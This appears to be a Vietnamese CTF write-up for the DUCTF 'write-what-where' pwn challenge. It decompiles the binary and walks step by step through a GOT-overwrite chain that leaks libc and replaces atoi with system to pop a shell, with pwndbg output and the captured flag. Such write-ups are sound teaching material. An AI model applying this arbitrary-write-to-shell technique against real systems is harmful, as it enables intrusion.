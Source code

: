 # Phân tích file

```python
write-what-where: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ee124ada64e961774c24b669bbe4aab30ef7f0e6, for GNU/Linux 4.4.0, not stripped
```

```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Ta có thể overwrite got do Partial RELRO

# Reverse file

- Main:
    
    ```python
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      _DWORD *v3; // [rsp+0h] [rbp-30h]
      int buf; // [rsp+Ch] [rbp-24h] BYREF
      char nptr[24]; // [rsp+10h] [rbp-20h] BYREF
      unsigned __int64 v6; // [rsp+28h] [rbp-8h]
    
      v6 = __readfsqword(0x28u);
      init(argc, argv, envp);
      puts("write");
      puts("what?");
      read(0, &buf, 4uLL);
      puts("where?");
      read(0, nptr, 9uLL);
      v3 = (_DWORD *)atoi(nptr);
      *v3 = buf;
      exit(0);
    }
    ```
    
- Init:
    
    ```python
    int init()
    {
      setvbuf(stdin, 0LL, 2, 0LL);
      return setvbuf(_bss_start, 0LL, 2, 0LL);
    }
    ```
    
    - Bài này cho phép ta nhập 4 byte vào 1 địa chỉ bất kì.

# Exploit

- Mình sẽ write got_exit về puts("write"); để mình có thể write got_setvbuf thành plt_puts  và stdin thành got_puts sau khi ghi xong mình sẽ write got_exit về lại đầu main để nó chạy qua hàm init và leak libc cho mình.
- Do mỗi lần chỉ ghi được 4 byte nên mình có thể ghi 2 lần 1 lần 4 bytes đầu rồi lần 2 là 4 bytes sau.
- Sau khi leak được libc mình sẽ write lại stdin để không bị lỗi rồi sau đó tính system và write 4 bytes cuối của atoi thành 4 bytes cuối của system lúc này mình chỉ cần nhập input là "/bin/sh\x00" thì khi đến atoi nó sẽ là system("/bin/sh") và get shell.
    
- Write got_exit
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x4011ca (main+33) ◂— lea    rax, [rip + 0xe33]
    ```
    
- Write 4 bytes đầu setbuf
    
    ```python
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x7fff00401030
    ```
    
- Write 4 bytes sau setbuf
    
    ```python
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x401030 (puts@plt) ◂— jmp    qword ptr [rip + 0x2fe2]
    ```
    
- Write 4 bytes đầu stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00007fff00404018
    ```
    
- Write 4 bytes sau stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x0000000000404018
    ```
    
- Write exit về lại main
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x4011a9 (main) ◂— push   rbp
    ```
    
- Leak libc
    
    ```python
    ► 0x401183 <init+29>    call   setvbuf@plt <setvbuf@plt>
            stream: 0x404018 (puts@got.plt) —▸ 0x7ffff7e4e5a0 (puts) ◂— endbr64
            buf: 0x0
            modes: 0x2
            n: 0x0
    
    pwndbg> got
    
    GOT protection: Partial RELRO | GOT functions: 5
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x401030 (puts@plt) ◂— jmp    qword ptr [rip + 0x2fe2]
    
    ```
    
    ```python
    [*] Puts: 0x7ffff7e4e5a0
    [*] libc_base: 0x7ffff7dc7000
    [*] system: 0x7ffff7e1c410
    ```
    
- Sau khi leak libc xong mình sẽ write lại giá trị cho stdin vì nếu bị thay đổi sẽ ảnh hưởng không cho ta lên shell được
- Write 4 bytes đầu stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00000000f7fb2980
    ```
    
- Write 4 bytes sau stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00007ffff7fb2980
    ```
    
- Write exit về start để chương trình setup lại mọi thứ để không bị lỗi.
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x401080 (_start) ◂— endbr64
    ```
    
- Write 4 bytes đầu của atoi thành 4 byte đầu của system
    
    ```python
    [0x404030] atoi@GLIBC_2.2.5 -> 0x7ffff7e1c410 (system) ◂— endbr64
    ```
    
- Nhập input "/bin/sh\x00" và lên shell
    
    ```python
    ► 0x40122a <main+129>    call   atoi@plt <atoi@plt>
            nptr: 0x7fffffffdd50 ◂— 0x68732f6e69622f /* '/bin/sh' */
    
    pwndbg> got
    [0x404030] atoi@GLIBC_2.2.5 -> 0x7ffff7e1c410 (system) ◂— endbr64
    ```
    
- Shell
    
    ```python
    		Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [*] Puts: 0x7f463d0fb9d0
    [*] libc_base: 0x7f463d07b000
    [*] system: 0x7f463d0caa60
    [*] stdin: 0x7f463d25b9a0
    [*] stdout: 0x7f463d25c6c0
    [*] Switching to interactive mode
    $ cat flag.txt
    DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}
    $
    ```
